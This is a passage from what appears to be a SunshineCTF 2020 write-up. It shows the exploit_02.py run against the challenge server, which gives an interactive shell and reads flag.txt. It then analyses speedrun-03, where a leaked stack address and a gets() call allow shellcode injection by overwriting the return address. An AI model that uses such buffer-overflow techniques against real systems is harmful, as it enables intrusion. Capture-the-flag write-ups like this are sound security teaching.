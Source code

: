 Output:

```bash
# ./exploit_02.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-02/chall_02'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30002: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_02) gid=1000(chall_02) groups=1000(chall_02)
$ ls -l
total 12
-rwxr-xr-x 1 root root     7348 Nov  7 07:49 chall_02
-rw-r----- 1 root chall_02   43 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{warmness-on-the-soul-3b6aad1d8bb54732}
```


## speedrun-03

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

No stack canary + NX disabled + RWX segments = BOF shellcode.  Welcome to the 1990s.  Except for the PIE bit, that is 2005.  A bit odd to leave it there.

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_78 [112];
  
  printf("I\'ll make it: %p\n",local_78);
  gets(local_78);
  return;
}
```

The `printf` statement leaks the address of `local_78` (on the stack with RWX enabled).  `gets` can be used to received our shellcode and then overwrite the return address with the address of our shellcode.
